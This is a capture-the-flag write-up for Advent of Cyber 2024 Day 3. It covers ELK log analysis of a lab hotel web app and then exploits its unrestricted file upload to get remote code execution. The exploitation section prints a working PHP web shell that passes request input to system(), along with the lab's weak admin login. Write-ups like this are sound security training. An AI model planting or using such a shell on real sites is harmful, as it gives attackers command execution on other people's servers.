





# Advent of Cyber 2024 - Day 3

## Challenge Overview
Day 3 of Advent of Cyber 2024 focuses on analyzing and exploiting a file upload vulnerability leading to Remote Code Execution (RCE). The challenge emphasizes identifying vulnerable web application features and understanding the security risks associated with unrestricted file uploads.

---

## Observations

### Investigating Logs with ELK
Using ELK, we analyzed logs related to the Frosty Pines Hotel Management System to detect suspicious activity and identify the exploitation path.

#### Accessing Logs
- Navigated to Kibana at `http://<MACHINE_IP>:5601`.
- Selected the `frostypines-resorts` collection.
- Filtered logs for the date range **October 3, 2024, between 11:30 and 00:00**.


#### Detecting Malicious Activity
Logs revealed suspicious access to `shell.php`, originating from the IP address `10.11.83.34`. Repeated commands executed via the malicious file indicated a web shell was being actively used.


---

### Exploiting the Vulnerability
The vulnerability existed due to a lack of file validation in the hotel's admin portal, allowing an attacker to upload a malicious PHP file.

#### Steps to Exploit

1. **Accessing the Admin Portal**:
   - Logged into the admin portal at `http://frostypines.thm`.
   - Weak credentials of `admin@frostypines.tcm:admin`
   - Navigated to the "Add Room" section.
   

2. **Uploading a Malicious File**:
   - Created a PHP web shell (`shell.php`) with the following code:
     ```php
     <html>
     <body>
     <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
     <input type="text" name="command" autofocus id="command" size="50">
     <input type="submit" value="Execute">
     </form>
     <pre>
     <?php
         if(isset($_GET['command'])) 
         {
             system($_GET['command'] . ' 2>&1'); 
         }
     ?>
     </pre>
     </body>
     </html>
     ```
   - Uploaded the shell as the room image.

3. **Accessing the Web Shell**:
   - The file was accessible at:
     ```
     http://frostypines.thm/media/images/rooms/shell.php
     ```
   - Executed system commands through the shell.
   

4. **Retrieving the Flag**:
   - Used the shell to list files and read the contents of `flag.txt`.
   

---

## Key Findings

### Blue Team Observations:
- **Vulnerable Feature**: Unrestricted file upload in the admin portal.
- **Indicators of Compromise**:
  - Repeated access to `shell.php`.
  - Commands executed via the uploaded shell.

### Red Team Exploitation:
- **Root Cause**: Missing file validation during uploads.
- **Impact**:
  - Achieved RCE and compromised sensitive data.

---

## Recommendations

1. **Restrict File Uploads**:
   - Validate file types and extensions (e.g., `.jpg`, `.png`).
   - Implement server-side validation to reject executable files.

2. **Log Monitoring**:
   - Set alerts for unusual activity, such as requests to unknown files (`shell.php`).

3. **File Scanning**:
   - Scan uploaded files for malicious code before processing or storage.

4. **Secure Admin Credentials**:
   - Enforce strong passwords and implement multi-factor authentication.

5. **Audit Code**:
   - Regularly audit application code to detect and patch vulnerabilities.

---

## Conclusion
This challenge highlighted the risks of unrestricted file uploads and the importance of secure web application development. By combining log analysis with exploitation techniques, we demonstrated the potential for attackers to achieve RCE and compromise critical systems. Implementing the recommendations above can significantly reduce the risk of such attacks.
